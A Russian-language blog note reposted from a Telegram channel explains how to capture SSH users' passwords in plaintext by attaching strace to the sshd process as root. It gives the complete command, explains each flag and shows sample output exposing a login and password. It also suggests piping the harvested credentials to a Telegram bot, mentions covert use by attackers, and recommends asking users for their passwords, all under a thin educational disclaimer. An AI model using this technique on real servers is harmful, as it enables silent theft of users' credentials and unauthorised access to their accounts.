 ```yaml
---
создал заметку: 2024-05-19T21:28:00
author: WhiteK0T
tags:
  - Bash
  - Linux
  - Security
  - Debug
Источник:
  - https://t.me/bashdays/229
---
```


**Как узнать пароль пользователя, который подключается к серверу по ssh.** Менять пароль я не буду, это не тру вэй. Я воспользуюсь своим любимым strace.

**Вообще самый простой вариант:** Пишешь пользователю - скажи мне свой пароль, мне нужно кое-что проверить. Если он не дает, просто меняешь его, проверяешь то что тебе нужно и выдаешь ему новый.

Но это актуально для корпоративных систем, когда ты root на сервере, а не кладовщица в обувном магазине.

**Короче идем рутом на сервер и расчехляем strace**
```bash
strace -f -p $(pgrep -o sshd) -o /tmp/passwd.txt -v -e trace=write -s 64
```

Запускаем и собираем урожай в файл passwd.txt. Работает так:

1. -f = следим за всеми процессами sshd (мастер и дочерние)
2. -p = ищем все PID sshd процессов
3. -o = файл куда пишем результаты
4. -v = пишем подробности
5. -e = триггеримся только на запись данных
6. -s = ограничиваем вывод данных 64 байтами (меньше мусора)

Теперь, когда какой-нибудь пользователь авторизуется на сервере по ssh, в файл passwd.txt в открытом виде будет записан его актуальный пароль.

Выглядит это так:
```
1088 write(5,"\0\0\0\5oleg", 9) = 9
1088 write(5, "\0\0\0\Barmaley1982", 17) = 17
```

Логин oleg, пароль Barmaley1982. Дело в шляпе. Этакий сниффер на коленке с помощью коробочных инструментов. Можешь к телеграм боту это прикрутить и получать эти перехваченные данные прям в мессенджере. Как это сделать [писал тут](../Telegram/Шаринг файлов-папок с серверов прямо к себе в Телеграм.md). [[Шаринг файлов-папок с серверов прямо к себе в Телеграм]]

Кстати этим кейсом очень часто пользуются блэкхеты и пентестеры, которые через дыру получают рута и затем втихую проворачивают свои делишки оставаясь в тени.

Такие дела. Ну и как там пишут:

Прошу отметить, что предоставленная здесь информация предназначена исключительно для образовательных и информационных целей. Я не призываю и не одобряю незаконные действия, и использование этой информации для незаконных целей запрещено. Читатели должны соблюдать законы своей страны и использовать свои навыки с уважением к этическим нормам и законам.

Давай, увидимся!

Источник [Bash Days | Linux | DevOps](https://t.me/bashdays/229)
Автор: *Роман Шубин*

#Linux
#Bash
#Debug
#Security